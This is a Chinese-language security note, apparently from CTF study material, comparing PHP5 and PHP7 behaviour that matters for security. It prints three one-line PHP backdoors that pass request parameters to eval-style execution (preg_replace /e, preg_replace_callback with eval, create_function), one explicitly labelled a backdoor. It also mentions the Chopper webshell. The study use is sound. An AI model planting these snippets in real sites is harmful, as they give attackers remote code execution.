 <br/>

## 版本区别
PHP5和PHP7的安全方面上的区别，大部分内容为[转载](https://www.cnblogs.com/r00tuser/p/10528864.html)

#### preg_replace()不再支持/e修饰符
在PHP5，该函数/e修饰符可以导致代码执行
```php
<?php
preg_replace("/.*/e",$_GET["h"],"."); 
?>
```
虽然现在PHP7以上不再支持/e修饰符，但是官方给了一个新的函数preg_replace_callback，稍微修一下就可以利用它做后门
```php
<?php
preg_replace_callback("/.*/",function ($a){@eval($a[0]);},$_GET["h"]);
?>
```

#### create_function被废弃
create_function函数可以导致代码执行，虽说被弃用了，但是仍然可以用
```php
<?php
$func =create_function('',$_POST['cmd']);$func();
?>
```

#### mysql_*系列全员移除
如果要在PHP7上面用老版本的mysql_*系列函数就需要你自己去额外装了，官方不在自带，现在官方推荐的是mysqli或者pdo_mysql。这是否预示着未来SQL注入漏洞在PHP上的大幅减少呢~

#### assert()默认不在可以执行代码
这意味着大部分的后门都不可以使用，同时菜刀的文件管理器也是使用assert，导致菜刀没办法在PHP7上正常使用

#### 十六进制字符串不再被认为是数字
```php
<?php
//PHP7
var_dump("0x123" == "291"); //bool(false) 
var_dump(is_numeric("0x123"));//bool(false) 
var_dump("0xe" + "0x1"); // int(0) 
var_dump(substr("foo", "0x1"));// string(3) "foo" 
?>
```
#### 移除了 ASP 和 script PHP 标签
`<% %>`、`<%= %>`、`<script language="php"> </script>`被移除，现在PHP7只有`<?php ?>`和`<?= ?>`标签可以使用

#### 超大浮点数类型转换截断
将浮点数转换为整数的时候，如果浮点数值太大，导致无法以整数表达的情况下， 在PHP5的版本中，转换会直接将整数截断，并不会引发错误。 在PHP7中，会报错。



<br/>

## 参考
[ CTF 中的 PHP 知识汇总 ](https://www.restran.net/2016/09/26/php-security-notes/)
[PHP7和PHP5在安全上的区别[更新]](https://www.cnblogs.com/r00tuser/p/10528864.html)

